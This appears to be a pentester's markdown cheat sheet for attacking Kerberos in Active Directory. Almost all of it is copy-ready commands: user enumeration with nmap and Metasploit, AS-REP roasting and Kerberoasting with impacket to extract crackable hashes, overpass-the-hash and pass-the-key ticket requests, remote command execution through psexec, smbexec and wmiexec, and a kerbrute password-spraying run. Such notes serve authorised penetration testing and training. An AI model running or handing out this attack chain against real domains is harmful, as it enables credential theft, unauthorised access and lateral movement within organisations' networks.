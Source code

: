 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### nmap
```bash - kali
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='$DOMAIN_NAME'" $TARGET
```

#### MSF
```metasploit - kali
use auxiliary/gather/kerberos_enumusers 
```

# Check for Kerberoasting: 
```bash - kali
GetNPUsers.py DOMAIN-Target/ -usersfile user.txt -dc-ip $TARGET -format hashcat/john
```

# GetUserSPNs
```bash - kali
impacket-GetUserSPNs $DOMAIN_NAME/$USER:$PASSWORD -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

```bash - kali
impacket-GetUserSPNs $DOMAIN_NAME/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

# Kerberoasting: 
```bash - kali
impacket-GetUserSPNs $DOMAIN_NAME/$USER:PASSWORD -outputfile <output_TGSs_file> 
```

#### Overpass The Hash/Pass The Key (PTK):
```bash - kali
python3 getTGT.py $DOMAIN_NAME/$USER -hashes [lm_hash]:<ntlm_hash> -dc-ip $DOMAIN_CONTROLLER_IP
```

```bash - kali
python3 getTGT.py $DOMAIN_NAME/$USER -aesKey <aes_key> -dc-ip $DOMAIN_CONTROLLER_IP
```

```bash - kali
python3 getTGT.py $DOMAIN_NAME/$USER:$PASSWORD -dc-ip $DOMAIN_CONTROLLER_IP
```

#### Using TGT key to execute remote commands from the following impacket scripts:
```bash - kali
python3 psexec.py $DOMAIN_NAME/$USER@$TARGET -k -no-pass
```

```bash - kali
python3 smbexec.py $DOMAIN_NAME/$USER@$TARGET -k -no-pass
```

```bash - kali
python3 wmiexec.py $DOMAIN_NAME/$USER@$TARGET -k -no-pass
```

https://www.tarlogic.com/blog/como-funciona-kerberos/
https://www.tarlogic.com/blog/como-atacar-kerberos/

```bash - kali
python kerbrute.py -dc-ip $TARGET -users /root/kb_users.txt -passwords /root/pass_common_plus.txt -threads 20 -domain $DOMAIN_NAME -outputfile kb_extracted_passwords.txt
```

https://blog.stealthbits.com/extracting-service-account-passwords-with-kerberoasting/
https://github.com/GhostPack/Rubeus
https://github.com/fireeye/SSSDKCMExtractor
https://gitlab.com/Zer1t0/cerbero


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
